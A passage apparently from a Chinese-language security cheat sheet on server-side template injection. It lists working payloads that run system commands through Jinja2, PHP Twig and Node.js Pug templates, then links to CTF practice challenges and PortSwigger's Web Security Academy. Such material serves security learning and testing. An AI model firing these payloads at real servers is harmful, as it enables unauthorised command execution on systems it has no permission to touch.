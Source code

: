 https://podalirius.net/en/articles/python-vulnerabilities-code-execution-in-jinja-templates/

执行命令并输出在模板中。

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
```

能够获取 os 库的 Payload。

```text
{{ self._TemplateReference__context.cycler.__init__.__globals__.os }}
{{ self._TemplateReference__context.joiner.__init__.__globals__.os }}
{{ self._TemplateReference__context.namespace.__init__.__globals__.os }}
```

### PHP Twig (1.9.0)

Payload。

```text
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```

### Node.js Pug

通过 NodeJS 全局对象 global，查找 require 导入 child_process.exec 执行命令。

```js
global.require('child_process').exec('calc')
```

14.0.0 之前版本 [mainModule](http://nodejs.cn/api/process/process_mainmodule.html) 还没被移除有以下方法可以使用。

```js
global.process.mainModule.require('child_process').exec('calc')
global.process.mainModule.constructor._load('child_process').exec('calc')
```

## 靶场练习

### BUUCTF

- [https://buuoj.cn/challenges#[CSCCTF%202019%20Qual\]FlaskLight](https://buuoj.cn/challenges#[CSCCTF 2019 Qual]FlaskLight)
- [https://buuoj.cn/challenges#[HFCTF%202021%20Final\]easyflask](https://buuoj.cn/challenges#[HFCTF 2021 Final]easyflask)
- https://buuoj.cn/challenges#[pasecactf_2019]flask_ssti
- https://buuoj.cn/challenges#[Flask]SSTI
- [https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%89%E7%AB%A0%20web%E8%BF%9B%E9%98%B6\]SSTI](https://buuoj.cn/challenges#[第三章 web进阶]SSTI)

### Web Security Academy

- [PortSwigger Web Security Academy](https://portswigger.net/web-security/server-side-template-injection)
